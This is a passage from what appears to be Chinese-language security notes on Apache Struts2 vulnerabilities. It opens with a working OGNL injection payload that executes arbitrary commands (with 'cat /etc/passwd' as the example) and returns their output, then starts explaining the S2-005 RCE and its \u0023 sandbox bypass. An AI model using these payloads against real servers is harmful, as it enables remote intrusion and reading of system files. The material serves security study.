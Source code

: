 执行任意命令（命令加参数：`new java.lang.String[]{"cat","/etc/passwd"}`）：

```plain
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"pwd"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```



![img](assets/1670311357764-1514838e-e8e7-4851-8b61-04054d22ecb3.jpeg)

------

# S2-005 远程代码执行漏洞

影响版本: 2.0.0 - 2.1.8.1
漏洞详情: http://struts.apache.org/docs/s2-005.html

## 原理

参考吴翰清的《白帽子讲Web安全》一书。

s2-005漏洞的起源源于S2-003(受影响版本: 低于Struts 2.0.12)，struts2会将http的每个参数名解析为OGNL语句执行(可理解为java代码)。OGNL表达式通过#来访问struts的对象，struts框架通过过滤#字符防止安全问题，然而通过unicode编码(\u0023)或8进制(\43)即绕过了安全限制，对于S2-003漏洞，官方通过增加安全配置(禁止静态方法调用和类方法执行等)来修补，但是安全配置被绕过再次导致了漏洞，攻击者可以利用OGNL表达式将这2个选项打开，S2-003的修补方案把自己上了一个锁，但是把锁钥匙给插在了锁头上

XWork会将GET参数的键和值利用OGNL表达式解析成Java语句，如：

```plain
user.address.city=Bishkek&user['favoriteDrink']=kumys 
//会被转化成
action.getUser().getAddress().setCity("Bishkek")  
action.getUser().setFavoriteDrink("kumys")
```

触发漏洞就是利用了这个点，再配合OGNL的沙盒绕过方法，组成了S2-003。官方对003的修复方法是增加了安全模式（沙盒），S2-005在OGNL表达式中将安全模式关闭，又绕过了修复方法。整体过程如下：
